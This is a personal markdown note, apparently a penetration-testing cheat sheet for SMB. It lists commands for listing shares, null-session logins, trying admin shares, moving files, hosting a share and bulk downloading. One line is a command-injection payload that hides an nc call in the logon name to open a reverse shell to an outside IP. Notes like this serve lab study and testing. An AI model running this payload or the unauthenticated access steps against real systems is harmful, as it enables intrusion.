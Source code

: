 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SMB]]  
___

## Description:  

**To see which shares are available on a given host, run:


```
impacket-smbclient user@10.10.110.5

smbclient -L //192.168.101.11/

enum4linux -S 192.168.101.11

sudo nmap --script smb* 192.168.93.40

```

**Null login:

`kolby@kali:~/Desktop/openVPN$ smbclient //192.168.101.11/ITDEPT -U '' -N
Try "help" to get a list of possible commands.


**Try common shares if you cannot list them:

```
smbclient //192.168.93.40/ipc$
smbclient //192.168.93.40/c$
smbclient //192.168.93.40/admin$

```


**to put a file on the share:

`put test.txt

**To get a file:

`get example.txt

**Reverse shells:

`logon “/=`nc 192.168.49.101 4444 -e /bin/bash`"


**Hosting a smb share
 
`impacket-smbserver public .

**Download everything**
`smbget -R smb://fileserver/directory`


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:56 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
